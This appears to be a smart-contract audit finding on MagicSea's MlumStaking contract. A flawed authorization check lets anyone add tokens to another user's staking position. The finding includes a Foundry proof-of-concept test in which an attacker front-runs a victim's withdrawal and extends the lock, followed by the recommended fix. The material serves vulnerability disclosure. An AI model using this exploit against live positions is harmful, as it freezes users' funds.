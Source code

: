 Sticky Hickory Hare

Medium

# MlumStaking::_requireOnlyOperatorOrOwnerOf incorrectly assumes msg.sender to be the position owner allowing unauthorized modifications to a position

## Summary
**_requireOnlyOperatorOrOwnerOf** Checks if an address has privileged rights on a **MlumStaking** position. It does so by calling **_isAuthorized(owner, spender, tokenId)** method but incorrectly passing **msg.sender** as both owner and spender which bypasses all the conditions inside **_isAuthorized**.
This incorrect check allows any address to add tokens into a position (addToPosition), increasing the position lock time (avgLockTime) and preventing position owner from withdrawing their tokens.

## Vulnerability Detail
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140-L143
_requireOnlyOperatorOrOwnerOf function uses _isAuthorized method of ERC721Upgradeable contract to authorize msg.sender:

```solidity
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
        require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
    }
```

https://github.com/OpenZeppelin/openzeppelin-contracts-upgradeable/blob/master/contracts/token/ERC721/ERC721Upgradeable.sol#L215-L219

**_isAuthorized** function expects the first parameter to be owner of the position, whereas here, **msg.sender** is passed as both owner and spender into the **_isAuthorized** function allowing unauthorized access to any position:

```solidity
    function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
        return
            spender != address(0) &&
            (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
    }

```
as you can see, if owner equals spender, **_isAuthorized** returns **true** which allows unauthorized access to **addToPosition** function and allows anyone to add tokens into an arbitrary position:
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L398


## Impact
It is possible to prevent some users from withdrawing their Mlum tokens, since calling **addToPosition** increases lock time of the position:
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L409-L414

Attacker only needs to front-run withdraw transaction of the victim and increase their lock time by a minimum of 1 seconds by adding Mlum tokens into victim’s position:

1. Attacker transaction => addToPosition(victim_id, attack_deposit_amount)
2. Victim transaction => withdrawFromPosition(victim_id, victim_position_amount)

This is how new lock time is calculated:
```solidity
        uint256 avgDuration = (remainingLockTime *
            position.amount +
            amountToAdd *
            position.initialLockDuration) / (position.amount + amountToAdd);
```
lets see how many tokens attacker needs to deposit in order to set avgDuration to 1. 
since `remainingLockTime * position.amount` is **0**:

- `amountToAdd * position.initialLockDuration >=  position.amount + amountToAdd`

by moving `amountToAdd` to the left side, and factoring `amountToAdd`:

- `amountToAdd * (position.initialLockDuration – 1) >= position.amount then amountToAdd >= position.amount / (position.initialLockDuration - 1)`

this shows us that the more `position.initialLockDuration`, the less tokens (percentage of position.amount) attacker needs to deposit to prevent victim from withdrawing their tokens.

This test demonstrates this vulnerability (add to MlumStaking.t.sol) :
```solidity
    function testPreventUnlock() public {
        address ANYONE = makeAddr("anyone");
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(ANYONE, 2 ether);

        //Alice creates a new position
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 days);
        vm.stopPrank();

        MlumStaking.StakingPosition memory position = _pool.getStakingPosition(
            1
        );
        assertEq(position.lockDuration, 1 days);

        //Skip lock duration, which means tokens are unlockable
        skip(1 days);

        //1 rounding error, so add by one
        uint attacker_amount_to_deposit = (uint(1 ether) / (1 days - 100)) + 1;
        vm.startPrank(ANYONE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.addToPosition(1, attacker_amount_to_deposit);
        vm.stopPrank();

        position = _pool.getStakingPosition(1);
        assertEq(position.lockDuration, 1);

        vm.startPrank(ALICE);
        vm.expectRevert("locked");
        _pool.withdrawFromPosition(1, 1 ether);
        vm.stopPrank();
    }
```

## Code Snippet

## Tool used

Manual Review

## Recommendation
Instead of passing **msg.sender** into `_isAuthorized`, retrieve and pass real owner:

```solidity
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
        require(ERC721Upgradeable._isAuthorized(_ownerOf(tokenId), msg.sender, tokenId), "FORBIDDEN");
    }
```

